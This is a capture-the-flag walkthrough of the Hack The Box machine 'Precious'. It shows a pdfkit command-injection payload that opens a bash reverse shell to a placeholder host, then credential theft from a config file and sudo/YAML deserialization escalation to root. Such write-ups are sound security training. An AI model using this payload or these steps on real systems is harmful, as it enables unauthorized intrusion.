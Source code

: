 ```yaml
---
title: "Hack The Box - Precious [Easy]"
date: 2023-05-23T19:42:27+03:00
draft: false
tags: ["hackthebox"]
---
```


We begin with a simple web page that has an input, apparently this input turns a webpage to a PDF, I tried with hosting a page on my machine and tried to use it for the input. 

Then the website provided me with a PDF of the website that I've hosted, I've downloaded the PDF and used the `exiftool` to figure out what was generating this PDF file, from there I saw that it was generated by `pdfkit v0.8.6`. 

I went to google to check if there are any exploits and I found this:
- https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

This apparently gives me a command injection exploit, and I tried the following payload:

```
http://myip:8080/?name=#{'%20`bash -c "bash -i >& /dev/tcp/myip/myport 0>&1"`'}
```

# Flag 1

This gave me a reverse shell for the user `ruby`, from this point I've run `linpeas.sh` to check how can I gain access to the user `henry` and I saw the file `/home/ruby/.bundle/config` and I went to check it.

```
$ cat /home/ruby/.bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:<passwod>"

```

I gained access to the user with an ssh login to the `hnery` user and gained the `user.txt` flag located in the home directory.

# Flag 2

```sh
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

This gives the clue of how to get the next flag, let's look what this file contains:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

We have `YAML.load(File.read("dependencies.yml"))` which hints that we need to use the `dependancies.yml` file to gain root. 

Using google again to see how can we do that, this took me some time, but figuring out the attack surface is what is this all about. The attack surface is being the YAML loader, so I've tried to look for exploits there, and I found this:
- https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/

I executed the `/usr/bin/ruby /opt/update_dependencies.rb` command with sudo and then using the `bash -p` I gained the root access. 
